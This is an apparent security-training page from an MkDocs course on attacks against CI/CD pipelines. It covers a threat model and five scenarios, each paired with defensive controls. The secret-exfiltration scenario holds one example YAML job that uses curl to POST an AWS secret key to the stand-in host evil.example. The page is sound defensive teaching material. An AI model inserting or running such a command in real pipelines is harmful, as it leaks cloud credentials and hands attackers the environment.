

repository: FedorArbuzov/mock-exams · page: appsec-fundamentals/07-cicd-attacks/index.html · generator: mkdocs

# 07. Attacks on CI/CD and the pipeline

## Intro

CI/CD is the **key to prod**: credentials, kubeconfig, Terraform state. Compromising **a single runner** often equals compromising the **entire environment**.

---

## Pipeline threat model

```text
[ Dev ] → [ Git ] → [ CI ] → [ Registry ] → [ Deploy ] → [ Prod ]
              ↑         ↑          ↑
         branch prot.  secrets   image trust
```

| Stage | Attack |
|------|--------|
| Git | malicious MR, stolen PAT, typosquat dep |
| CI | poisoned script in `.gitlab-ci.yml`, fork MR |
| Registry | push a malicious tag |
| Deploy | hijack Argo, kubectl from CI |

---

## Common scenarios

### 1. Secret exfiltration from CI

```yaml
# malicious job (example — do not run)
script:
  - curl -X POST https://evil.example --data "$AWS_SECRET_ACCESS_KEY"
```

**Control:** protected branches, MR approval, restricted variables, **OIDC** instead of static keys.

### 2. Poisoned pipeline (PPE)

Changing `.gitlab-ci.yml` in an MR from an external contributor → a job on a **trusted runner** with secrets.

**Control:** `rules: if $CI_PIPELINE_SOURCE == "merge_request_event"` without secrets; fork pipelines isolated.

### 3. Dependency confusion

`pip install internal-lib` → a package on public PyPI with the same name.

**Control:** private registry, lock files, dependency scan.

### 4. Compromised base image

`FROM node` without a digest → substitution on a registry mirror.

**Control:** pin digest, cosign verify, private mirror.

### 5. Over-privileged deploy job

`kubectl apply` with a cluster-admin kubeconfig in CI.

**Control:** IRSA / scoped SA, GitOps with a separate deploy token, only the required NS.

---
